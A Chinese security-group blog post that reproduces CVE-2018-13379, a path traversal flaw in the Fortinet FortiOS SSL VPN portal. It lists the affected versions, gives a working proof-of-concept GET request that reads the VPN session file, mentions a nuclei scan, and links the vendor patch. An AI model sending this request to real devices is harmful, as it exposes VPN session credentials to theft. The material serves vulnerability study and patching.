 #  Fortinet FortiOS 目录遍历漏洞(CVE-2018-13379)

弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

#网络安全 25 个

#CVE 23 个

#漏洞 40 个

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190602.png)  
 **0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190602.png)  
 **0x01漏洞介绍**  
  

Fortinet
FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。

Fortinet FortiOS 5.6.3版本至5.6.7版本和6.0.0版本至6.0.4版本中的SSL VPN
Web门户存在路径遍历漏洞。该漏洞源于网络系统或产品未能正确地过滤资源或文件路径中的特殊元素。攻击者可利用该漏洞访问受限目录之外的位置。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190602.png)  
 **0x02影响版本**  
  

  Fortinet FortiOS 5.6.3版本至5.6.7版本和6.0.0版本至6.0.4版本

![]()

  

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190602.png)  
 **0x03漏洞复现**  
  

1.访问漏洞环境

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190606.png)

2.对漏洞进行复现

 **Poc  **

  *   *   *   *   *   *   * 

    
    
    GET /remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36Connection: closeAccept: */*Accept-Language: enAccept-Encoding: gzip, deflate

  

复现请求

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190607.png)

  

3.nuclei工具测试（漏洞存在）

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190608.png)

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190602.png)  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  * 

    
    
    https://fortiguard.com/psirt/FG-IR-18-384

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190611.png)

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190612.png)

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

